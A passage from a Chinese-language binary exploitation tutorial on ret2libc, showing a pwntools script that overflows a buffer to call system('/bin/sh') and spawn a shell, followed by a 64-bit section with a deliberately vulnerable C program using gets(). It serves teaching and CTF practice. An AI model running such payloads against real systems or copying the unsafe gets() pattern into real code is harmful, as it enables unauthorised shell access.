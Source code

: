 ```python
# 2. 覆盖返回地址为 system 的实际地址
# 3. 设置 system 的返回地址为任意值（填充为 0x0）
# 4. 设置 system 的参数为 "/bin/sh" 的地址
payload2 = (
    offset * b"A" +         # 填充缓冲区
    p32(system_addr) +      # 覆盖返回地址，跳转到 system 函数
    p32(0x00000000) +       # 填充无效的返回地址
    p32(bin_sh_addr)        # system 的参数，指向 "/bin/sh" 的地址
)

# 发送第二个 Payload，触发缓冲区溢出并执行 system("/bin/sh")
p.sendline(payload2)
# 进入交互模式，保持与目标程序的交互
p.interactive()
```

## ROP-Ret2Libc-64位实例详解

```
64位系统的函数调用约定，参数主要通过 寄存器 传递，第一个参数默认放在rdi，依次类推第六个参数放在r9。
```

![image-20241217143008829](pwn二进制漏洞/image-20241217143008829.png)	

```c
接下来还是以这个c文件作为案例演示
#include<stdio.h>
char buf2[10] = "ret2libc is good";
void vul()
{
	char buf[10];
	gets(buf);
}
void main()
{
	write(1,"hello",5);
	vul();
}
```
